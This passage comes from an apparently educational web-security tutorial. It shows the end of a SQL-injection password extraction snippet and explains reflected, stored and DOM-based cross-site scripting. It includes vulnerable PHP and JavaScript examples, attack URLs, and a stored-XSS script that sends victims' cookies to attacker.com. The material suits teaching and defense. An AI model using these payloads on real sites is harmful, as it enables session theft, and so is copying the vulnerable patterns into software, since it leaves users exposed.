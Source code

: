 ```python
password = extract_data("<http://vulnerable.com/login.php>", "username")
print(f"[!] Extracted password: {password}")

```

#### 3. Cross-Site Scripting (XSS)

##### **What it is:**

- Injection of malicious scripts into web applications
- Scripts execute in victim's browser context
- Bypasses same-origin policy

##### **Types of XSS**

**1. Reflected XSS (Non-Persistent):**

- Payload delivered via URL/form
- Immediate execution

```html
<!-- Vulnerable code -->
<?php echo "Search results for: " . $_GET['search']; ?>

<!-- Attack URL -->
<http://site.com/search.php?search=><script>alert(document.cookie)</script>

```

**2. Stored XSS (Persistent):**

- Payload stored in database
- Executes for all users viewing the content

```jsx
// Malicious comment stored in database
<script>
    var cookies = document.cookie;
    var img = new Image();
    img.src = "<http://attacker.com/steal.php?cookie=>" + encodeURIComponent(cookies);
</script>

```

**3. DOM-Based XSS:**

- Manipulation of DOM environment
- Client-side vulnerability

```jsx
// Vulnerable JavaScript
document.getElementById("output").innerHTML = location.hash.substring(1);

// Attack URL
<http://site.com/page.html#><img src=x onerror=alert(1)>

```
